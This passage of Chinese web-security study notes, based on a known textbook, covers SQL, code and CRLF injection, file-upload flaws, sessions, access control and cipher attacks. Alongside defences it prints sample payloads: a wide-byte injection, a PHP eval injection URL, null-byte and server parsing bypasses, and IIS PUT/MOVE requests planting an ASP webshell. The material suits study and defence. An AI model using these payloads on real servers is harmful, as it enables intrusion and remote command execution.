      Mysql中，除了可以通过到处webshell间接地执行命令外，还可以利用**用户自定义函数**的技巧，即UDF（User-Defined Functions）来执行命令。Mysql 4时，Marco Ivaldi有一个方法可以定义UDF执行命令，当Mysql 5时，使用**lib_mysqludf_sys.so**来进行命令执行，MS Sql的**xp_cmdshell**，Oracle中如果有Java环境，可以创建**Java的存储过程**来执行命令。

   3. 攻击存储过程
   
      存储过程为数据库提供了强大的功能，它和UDF很像，但是存储过程是通过Call或Execute来执行的。
      
      在MS Sql中，**xp_cmdshell**可以用来执行系统命令，在SQL Server 2000中，xp_cmdshell是默认开启的，在以后的版本中默认关闭，如果有了MS Sql的sysadmin权限，可以使用sp_configure（SQL Server 2005 和 2008）开启，sp_addextendedproc（SQL Server 2000）开启。
      
      除了xp_cmdshell以外，还有一些存储过程可以操作注册表，这对攻击过程也是极有帮助的，如xp_regread等等。
      
      除了利用存储过程直接攻击区外，**存储过程本身也可能存在注入漏洞**。
      
   4. 编码问题
   
      注入攻击常常会使用到单引号“'”，双引号“"”等特殊字符，开发者为了安全，常常使用转移字符“\”来转义这些字符。但是当数据库使用**宽字节**的时候，可能会产生一些漏洞。比如MySql使用GBK编码时，0xbf27和0xbf5c都会被认为是一个字符（双字节字符），如图。
      
      而在进入数据库之前，Web应用并没有考虑到双字节的问题，双字节字符会被认为是两个字节。比如当PHP中的addslashes()函数，或者当magic_quotes_gpc开启时，会再特殊符号前加上一个“\”，而当攻击者对一个注入点输入如下代码
      
      ```
      0xbf27 or 1=1
      ```
      Web应用认为`0xbf27`为两个字符，`bf`和`27`，所以转义为`0xbf5c27`，而`0xbf5c`在数据库中又是一个宽字节，在数据库中时就变成了
      
      ```
      宽字符' or 1=1
      ```
      注入成功。
      
      要解决这种问题，需要**统一数据库**，**操作系统**，**所有的字符集使用同一个**。统一设置为**UTF-8**是一个很好的方法。
      
      基于字符集的攻击不仅仅在注入攻击中可以使用，在XSS攻击中也可以使用。由于各种原因无法统一字符集，就只能定义自己的过滤函数，限制用户只能输入某些字符。
      
   5. SQL Column Truncation
   
      在MySql的配置选项中，有一个sql_mode选项，当设置为default时，即没有开启STRICT_ALL_TABLES选项时，MySql对于用户输入的超长值只会提示warning（插入成功），而不是error（如果error则插入不成功），这些可能会导致**截断**问题。
      如有这样一个表，表中包换username，password两个字段，都为varchar(10)，如果本来已经有了admin用户，再次插入用户`admin             x`，如果开启了STRICT_ALL_TABLES，则会报错，说字符串过长，不能插入；如果没有开启STRICT_ALL_TABLES，则会报一个警告，但是数据插入了，并且在数据库中已就位`admin`，这就导致了原admin的用户密码会多一个，可以绕过登录。
      
3. 正确的防御SQL注入

   要做的事情只有两个：
      * 找到所有的SQL注入漏洞。
      * 修补这些漏洞。
   
   这样就能够很好的防御SQL注入，但是显然这样是很困难的，还有的人使用黑名单的方式进行SQL过滤，但这样会妨碍用户体验，在自然语言输入的时候，SQL语句中的过滤词会有很大几率出现，所以提出一下几种方式。
   
   1. 使用预编译语句
   
      一般来说，防御SQL注入的最佳方式，就是**预编译语句**，**绑定变量**，不同的语言有不同的形式。
      
   2. 使用存储过程
   
      还可以使用安全的存储过程来对抗SQL注入，但是存储过程中也可能存在注入漏洞，因此应该避免存储过程内使用动态SQL语句，如果无法避免，应当使用严格的过滤函数对输入内容进行过滤。
      
   当无法使用**预编译语句**和**存储过程**时，只能回到过滤和编码上：
   
   3. 检查数据类型
   
   4. 使用安全函数
   
4. 其他注入攻击

   1. XML注入，和SQL注入类似，都是因为输入可以被用户控制，而输入又没有完善的限制导致。
   
   2. 代码注入，代码注入往往由一些不安全的函数或者方法引起，典型代表就是`eval()`，如
   
      ```
      $myvar = "myname";
      $x = $_GET['arg'];
      eval("$myvar = $x;");            
      ```
      当用户输入如下Payload
      
      ```
      /index.php?arg=1;phpinfo()
      ```
      就执行了后面的代码phpinfo()。
      
      防止代码注入，在编码中尽量避免使用这些不安全的函数eval()，system()等，如果不可避免的要使用，那么一定要注意输入的校验。
      
   3. CRLF注入
   
      CRLF实际上是两个字符，CR是Carriage Return(ASCII 13,\r)，LF是Line Feed(ASCII 10,\n)，\r\n用于表示回车换行，十六进制为0D0A。
      
      CRLF常备用过不同语义之间的分隔符，因此通过CRLF注入，就由可能改变原有的语义。比如在日志文件中通过CRLF构造一条日志。CRLF注入不仅仅可以做Log注入，还可以做HTTP头注入。在HTTP协议中，HTTP头是通过“\r\n”来分割的。因此，如果服务器端没有过滤“\r\n”，而又把用户的输入放在HTTP头中，那么很有可能导致**Http Response Splitting**。
      
##第8章 文件上传漏洞

1. 文件上传漏洞是什么？

   文件上传漏洞是指用户上传了一个可执行的脚本文件，并通过此脚本获得了执行服务器端命令的权限。
   
   文件上传后导致的常见安全问题有：
   
   * 上传文件时Web脚本语言，服务器Web容器解释并执行了用户上传的脚本，导致代码执行。
   * 上传文件时Flash的策略控制文件crossdomain.xml，黑客用以控制Flash在该域下的行为（其他的策略文件类似）。
   * 上传的时病毒，木马，这个不用说，危险。
   * 上传的是钓鱼图片或包含了脚本的图片，在某些版本的浏览器或服务器会被当做脚本执行。
   
   除此之外，还有一些不常见的用法，比如用上传文件做为一个入口，溢出服务器后台程序；上传一个合法文本文件，其中是可执行代码，然后通过“本地文件包含”漏洞包含这个文件，造成代码执行，等等。
   
   1. 从FckEditor说，这个编辑器本身的漏洞先不谈起，很多开发者在使用这款编辑器的时候甚至不知道它由上传文件的功能。
   
   2. 绕过文件上传检查功能
   
      这里只是说说了使用00截断，因为很多常用的字符串处理函数中`0x00`都被认为是终止符，所以在上传图片的时候，修改POST包，将文件名改为`xxxx.php0x00.JPG`，JPG绕过了应用的上传文件类型要求，但对于服务器端来说，此文件因为0x00字符截断的关系，最终变成了xxxx.php。
      
      00截断应该值得特别注意，这个字符在很多地方，不仅仅是Web应用中充当终止字符。
      
      还有一些应用通过判断文件的文件头来验证文件类型，那么可以通过伪造文件头的方式来绕过检测。
      
2. 功能还是漏洞？

   1. Apache的文件解析问题
   
      在Apache1.x、2.x中，对于文件名的解析是从后往前解析的，直到遇见一个Apache认识的文件为止，比如
      
      ```
      phpshell.php.rar.rar.rar
      ```
      因为Apache不认识rar文件格式，所以会一直遍历到php，解析到它是一个php脚本，然后执行。Apache的文件类型定义在mime.types文件中。
      
   2. IIS文件解析问题
   
      IIS 6的问题不少，首先就是截断问题，前面提过0x00截断的，但是在IIS中就是将0xxx换成了“;”，当文件名为abc.asp;111.jpg时，IIS 6会将文件接卸为abc.asp，文件名被阶段了，导致脚本执行。
      
      同时，IIS 6 还有这样一个漏洞，处理文件夹扩展名出错，导致/*.asp/目录下的所有文件都会作为asp文件进行解析。
      
      还有，IIS支持PUT，MOVE功能导致的上传shell问题。PUT是在WebDav中定义的一个方法，它扩展了HTTP协议中的Get，Post等功能，同时包含PUT方法等，PUT允许用户上传文件到指定路径下。利用这个漏洞，首先要用OPTIOINS方法探测服务器支持的HTTP方法类型，如果支持PUT，那么就先上传一个指定文件，然后再用MOVE将文件改写为脚本文件。
      
      ```
      // OPTIONS 包格式
      OPTIONS / HTTP/1.1
      Host:www.a.com
      
      // PUT 包格式
      PUT /test.txt HTTP/1.1
      Host:www.a.com
      Content-Lenght:26
      <%eval(request("cmd"))%>
      
      // MOVE 包格式
      MOVE /test/txt HTTP/1.1
      Host:www.a.com
      Destination:http://www.a.com/shell.asp
      ```
      国内安全研究者zwell曾写过一个自动化的扫描工具“IIS PUT Scanner”来帮助检测这类问题。
      
   3. PHP CGI 路径解析问题
   
      Nginx配置fastcgi使用PHP时，会存在文件类型解析问题，比如这样一个链接
      
      ```
      /path/to/document_root/test.txt
      ```
      如果在后面加上“/1.php”，就会造成test.txt当成脚本执行，其中，1.php不存在。造成这个原因的是“在fastcgi下，PHP获取环境变量的方式”，在PHP的配置文件中有个关键的选项cgi.fix_pathinfo，默认是开启的，在映射URI时，将递归查新路径确认文件的合法性，这时，有两个环境变量很重要，一个是PATH_INFO，一个是SCRIPT_FILENAME，这个功能本来是想解决形如“/info.php/test”这样的URL，让他能够够正确的访问info.php，但是在例子中，解析时，SCRIPT_FILENAME要检查文件是否存在，为“/path/test.jpg”，而PATH_INFO还是1.php，最终，就把test.jpg当做php进行解析了。
      
   4. 上传文件钓鱼
   
3. 设计安全的文件上传功能

   * 文件上传的目录设置为不可执行
   * 判断文件类型
   * 使用随机数改写文件名和文件路径
   * 单独设置文件服务器的域名
 
##第9章 认证与会话管理

1. **认证的目的是为了认出用户是谁，而授权的目的是为了决定用户能够做什么。**

2. 密码最好加salt，不然不安全。

3. 多因素认证会更安全，比如同时使用手机短信认证和密码认证。

4. Session Fixation攻击

   Session Fixation攻击其实就是攻击者获取一个未经认证的SessionID，拿给用户去认证这个SessionID，然后攻击者就能够用这个SessionID做和用户一样的事情了。
   
5. Session 保持攻击，攻击者一直刷新Session，保持Session的存活，开发者可以通过给Session一个强制过期时间来解决这个问题，或者考虑同一个用户可以有几个有效的Session，如果只有一个，那么攻击者想保持一个Session是不太可能的，因为用户登陆了就会把攻击者强制踢出。

6. 单点登录（SSO），OpenID就是一个SSO，下面是OpenID的流程路。
   

##第10章 访问控制     

1. 访问控制就是**授权**要解决的问题。

2. 权限控制，抽象的说，**都是某个主体（subject）对某个客体（object）需要实施某种操作（operation），而系统对这种操作的限制就是权限控制**。

3. 垂直权限管理---基于角色的访问控制（Role-Base Access Control），就是用户-角色-权限。

4. 水平权限管理---如同样的用户，一个可以可以查看另一个的文件，这就越权了，目前还仍然是一个难题。
 
5. OAuth，这个就像目前你用qq登陆其他网站，其他网站可以向你申请取得你的好友都有谁的权限，就是这么个功能。下面是新浪微博的OAuth授权图。
   

##第11章 加密算法与随机数

1. 常见的加密算法分为**分组加密算法**和**流密码加密算法**。分组加密算法基于“分组”（block），不同的算法分组长度也可能不同。分组加密的代表算法有DES、3-DES、Blowfish、IDEA、AES等。流密码加密算法，每次只处理一个字节，秘钥独立于消息之外，代表算法有RC4、ORYX、SEAL等。

2. 针对加密算法的攻击，一般根据攻击者能获得的信息，可以分为：

   * 唯密文攻击，攻击者有一些密文，他们是使用同一加密算法和同一秘钥加密的，这种攻击最难。
   * 已知明文攻击，攻击者除了能得到一些密文外，还能得到这些密文对应的明文。
   * 选择明文攻击，攻击者不仅能得到一些密文和明文，还能选择指定的明文加密为密文。
   * 选择密文攻击，攻击者可以选择不同的密文来解密。
 
3. Stream Cipher Attack

   1. Reused Key Attack
   
      在流密码体系中，最常见的**错误**就是使用同一个秘钥进行了多次加/解密，这将使破解流密码变得非常简单，这种攻击就叫做Reused Key Attack，在这种攻击下，用户不需要知道秘钥，即可还原出明文。
      
##第12章 Web框架安全

##第13章 应用层拒绝服务攻击

##第14章 PHP安全

##第15章 WebServer配置安全

#第四章 互联网公司安全运营
---
##第16章 互联网业务安全

##第17章 安全开发流程（SDL）

##第18章 安全运营      
      
#参考文献
---
1. 白帽子讲Web安全 吴翰清